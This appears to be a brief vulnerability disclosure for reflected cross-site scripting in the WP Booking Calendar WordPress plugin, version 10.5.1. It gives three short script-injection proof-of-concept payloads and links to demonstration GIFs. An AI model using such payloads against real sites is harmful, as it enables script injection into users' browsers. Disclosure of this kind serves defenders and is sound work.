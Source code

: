 * Exploit Title: WP Booking Calendar has multiple reflected cross-site scripting vulnerabilities

* Vendor Homepage:https://wordpress.org/plugins/booking

* Software Link: https://wordpress.org/plugins/booking

* Version: 10.5.1   

* Vulnerability proof:
1. PoC:'-prompt(1)-'
![images](https://github.com/BigTiger2020/2024/blob/main/reflected-xss-1.gif)
2. PoC:'-prompt(1)-'
![images](https://github.com/BigTiger2020/2024/blob/main/reflected-xss-2.gif)
3. PoC:prompt(1)
![images](https://github.com/BigTiger2020/2024/blob/main/reflected-xss-3.gif)
